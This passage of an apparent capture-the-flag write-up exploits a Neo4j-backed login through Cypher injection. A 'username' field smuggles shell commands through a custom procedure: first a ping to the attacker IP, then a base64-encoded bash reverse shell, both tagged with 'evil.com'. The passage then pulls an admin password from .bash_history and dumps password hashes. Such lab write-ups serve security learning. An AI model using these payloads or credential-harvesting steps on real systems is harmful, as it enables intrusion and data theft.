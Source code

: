 When the server processes that, it runs a single Cypher statement akin to:

```cypher
MATCH (u:USER)-[:SECRET]->(h:SHA1)
WHERE u.name = 'admin' OR 1=1
WITH 1 as n
CALL custom.getUrlStatusCode('evil.com; ping -c5 10.10.14.22 #') YIELD statusCode
RETURN n
```

We start `tcpdump` to test if we get icmp packets back from the vulnerable machine:

```bash
sudo tcpdump -i tun0 icmp
```

![[Pasted image 20250301195838.png]]

We see that the machine pings back to our attacker machine so know we can test for a reverse shell:

```json
{
  "username": "admin' OR 1=1 WITH 1 as n CALL custom.getUrlStatusCode('evil.com; echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMjIvOTk5OSA8JjEnCg==|base64 -d|bash #') YIELD statusCode RETURN n //",
  "password": "anything"
}
```

Starting a `nc` listener on port 9999, we get a reverse shell to the vulnerable machine. Once triggered, you should get a shell as the `neo4j` user (since the injection occurs within the Neo4j process context).


## User

Now that we have a user we can look to move laterally to a user with greater privileges. The first thing we notice is a `.bash_history`, looking in this file suggests the Neo4j admin password is `cU4btyib.20xtCMCXkBmerhK`

```bash
neo4j@cypher:~$ cat .bash_history 
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

We can verify or see additional stored data by using cypher-shell:

```bash
neo4j@cypher:~$ cypher-shell -a bolt://172.18.0.1:7687 -u neo4j -p cU4btyib.20>
Connected to Neo4j using Bolt protocol version 5.6 at bolt://172.18.0.1:7687 as user neo4j.
Type :help for a list of available commands or :exit to exit the shell.
Note that Cypher queries must end with a semicolon.
>....
```

Now we can query user objects, e.g.:

```
MATCH (u:USER)-[:SECRET]->(h:SHA1)
RETURN u.name AS username, h.value AS hash;
```


[^1]: https://pentester.land/blog/cypher-injection-cheatsheet/